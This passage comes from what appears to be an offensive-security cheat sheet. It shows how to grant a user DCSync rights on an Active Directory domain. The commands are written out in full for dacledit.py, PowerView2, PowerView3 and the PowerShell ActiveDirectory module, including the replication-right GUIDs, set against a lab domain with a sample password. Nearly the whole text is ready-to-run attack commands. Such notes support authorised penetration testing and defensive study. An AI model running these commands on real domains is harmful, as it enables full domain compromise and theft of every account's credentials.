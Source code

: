 ```
$ dacledit.py megacorp.local/snovvcrash:'Passw0rd!' -action write -rights DCSync -principal snovvcrash -target-dn 'DC=megacorp,DC=local' -dc-ip 192.168.1.11
```

Using **PowerView2**:

```
PV2 > Add-ObjectAcl -TargetDistinguishedName "DC=megacorp,DC=local" -PrincipalName snovvcrash -Rights DCSync -Verbose
```

Using **PowerView3**:

```
PS > $cred = New-Object System.Management.Automation.PSCredential("snovvcrash", $(ConvertTo-SecureString "Passw0rd!" -AsPlainText -Force))
PV3 > Add-DomainObjectAcl -TargetIdentity "DC=megacorp,DC=local" -PrincipalIdentity snovvcrash -Credential $cred -Rights DCSync -Verbose
```

Using PowerShell **ActiveDirectory**:

* [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

1. Get ACL for the root domain object.
2. Get SID for the account to be given DCSync rights.
3. Create a new ACL and within it set "Replicating Directory Changes" (GUID `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2`) and "Replicating Directory Changes All" (GUID `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`) rights for the SID from (2).
4. Apply changes.

```
PS > Import-Module ActiveDirectory
PS > $acl = Get-Acl "AD:DC=megacorp,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = New-Object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectGuid = New-Object guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-Acl -AclObject $acl "AD:DC=megacorp,DC=local"
```

Using **ADSI** and **dsacls.exe**:

- [https://gist.github.com/jfmaes/404b45d542fc07db51e6e07d8ebb79b9](https://gist.github.com/jfmaes/404b45d542fc07db51e6e07d8ebb79b9)
